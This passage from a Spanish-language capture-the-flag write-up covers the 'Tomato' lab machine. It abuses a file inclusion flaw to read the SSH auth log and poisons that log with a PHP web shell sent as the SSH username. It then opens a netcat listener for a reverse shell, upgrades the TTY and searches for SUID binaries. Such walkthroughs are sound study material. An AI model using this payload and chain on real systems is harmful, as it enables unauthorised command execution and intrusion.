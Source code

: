 >Procedemos a listar los logs SSH ya que, como habíamos visto, el puerto 2211 estaba abierto y corriendo SSH.

`http://192.168.216.145/antibot_image/antibots/info.php?image=/var/log/auth.log`

>¡Podemos listarlos! Listo, procedemos a inyectar código PHP mediante un envenenamiento del archivo `auth.log`, correspondiente a SSH.
>Primero, desde nuestra consola, nos intentamos autenticar hacia la máquina víctima de la siguiente manera:

```shell
> ssh -p 2211 '<?php system($_GET["cmd"]); ?>'@192.168.216.145
```

>Este campo de usuario malicioso lo que hará es llamar a la función `system` para que se ejecute el comando que especifiquemos mediante una petición GET a la url con el parámetro cmd.
>El campo de usuario quedará en los logs como un intento de acceso erróneo al sistema, pero se ejecutará el código PHP en el navegador dado que el `include` está interpretando el código.
>Intentamos ejecutar el comando `id`.

![5.png]({%link assets/img/tomato/5.png%})

>Ahora solo nos queda entablarnos la Reverse Shell. Nos ponemos en escucha desde una consola con `sudo nc -nlvp 443` y nos intentamos entablar la conexión.

![6.png]({%link assets/img/tomato/6.png%})

>Recibimos la conexión:

![7.png]({%link assets/img/tomato/7.png%})

>Aplicamos los siguientes comandos para tener una Full TTY intercativa.

1) `script /dev/null -c bash`
2) Ctrl+Z
3) `stty raw -echo;fg`
4) `reset xterm`
5) `export TERM=xterm`
6) `export SHELL=bash`

>Enumeramos el sistema. Vemos si hay binarios interesantes con permisos SUID pero no encontramos ninguno.

```shell
> find / -perm -4000 2>/dev/null

/bin/ntfs-3g
/bin/su
/bin/ping6
/bin/fusermount
/bin/mount
/bin/ping
/bin/umount
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/vmware-user-suid-wrapper

```
